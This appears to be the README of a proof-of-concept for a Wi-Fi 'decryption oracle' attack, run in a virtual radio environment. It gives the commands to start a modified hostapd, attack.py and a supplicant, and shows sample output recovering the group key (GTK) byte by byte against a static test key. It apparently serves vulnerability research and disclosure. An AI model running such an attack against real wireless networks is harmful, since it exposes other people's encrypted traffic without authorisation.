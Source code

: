 # Decryption Oracle Test

To prepare the proof-of-concept for execution in a virtual environment, run `./initradios.sh`.
Now open three different terminals, and in each of them execute:

	sudo ./hostapd.sh
	sudo ./attack.py
	sudo ./supplicant.sh

The output of attack.py will be:

	WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
	WARNING: No route found for IPv6 destination :: (no default route?)
	Guessing position 31 value 0x0
	Guessing position 31 value 0x1
	Recovered value 1 at position 31 ==> GTK so far = [1]
	Guessing position 30 value 0x0
	Recovered value 0 at position 30 ==> GTK so far = [0, 1]
	Guessing position 29 value 0x0
	Guessing position 29 value 0x1
	Guessing position 29 value 0x2
	Recovered value 2 at position 29 ==> GTK so far = [2, 0, 1]
	Guessing position 28 value 0x0
	Guessing position 28 value 0x1
	Recovered value 1 at position 28 ==> GTK so far = [1, 2, 0, 1]
	Guessing position 27 value 0x0
	Recovered value 0 at position 27 ==> GTK so far = [0, 1, 2, 0, 1]
	Guessing position 26 value 0x0
	...

Note that hostapd was modified to use the static group key "00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01 02 00 01" in the above example output.
